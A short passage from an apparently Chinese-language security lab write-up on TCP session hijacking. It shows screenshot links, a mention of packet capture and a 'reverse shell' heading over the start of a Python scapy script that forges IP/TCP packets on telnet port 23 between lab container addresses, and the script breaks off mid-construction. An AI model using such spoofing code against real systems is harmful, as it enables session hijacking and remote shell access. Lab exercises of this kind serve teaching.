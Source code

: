 user卡死 

![image-20220410224654491](readme.assets/image-20220410224654491.png)

抓包

![image-20220410224714462](readme.assets/image-20220410224714462.png)

### 反向shell

```python
#!/usr/bin/python3
from scapy.all import *

SRC = "172.17.0.3"
DST = "172.17.0.2"
PORT = 23

def spoof(pkt):
    old_ip = pkt[IP]
	old_tcp = pkt[TCP]
    
	ip = IP( src = old_ip.src, 
             dst = old_ip.dst
           )

	tcp = TCP( sport = old_tcp.sport, 
```